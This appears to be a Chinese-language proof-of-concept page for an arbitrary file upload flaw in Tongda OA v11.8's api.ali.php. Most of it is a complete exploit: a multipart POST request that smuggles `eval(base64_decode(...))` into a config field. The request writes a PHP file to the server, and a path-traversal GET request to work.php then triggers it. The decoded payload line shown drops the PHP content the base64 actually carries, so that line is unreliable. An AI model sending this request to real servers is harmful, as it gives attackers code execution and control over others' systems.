

# 通达OA v11.8 api.ali.php 任意文件上传漏洞

## 漏洞描述

通达OA v11.8 api.ali.php 存在任意文件上传漏洞，攻击者通过漏洞可以上传恶意文件控制服务器

## 漏洞影响

```
通达OA v11.8
```

## 漏洞复现

登陆页面


向 api.ali.php 发送请求包

```
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream

{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
```

参数a base解码

```
ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==
file_put_contents('../../fb6790f4.php','');
```



再发送GET请求写入文件，页面返回`+OK`

```
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

其中请求中对 2109 为 年月,路径为 `/fb6790f4.php,`

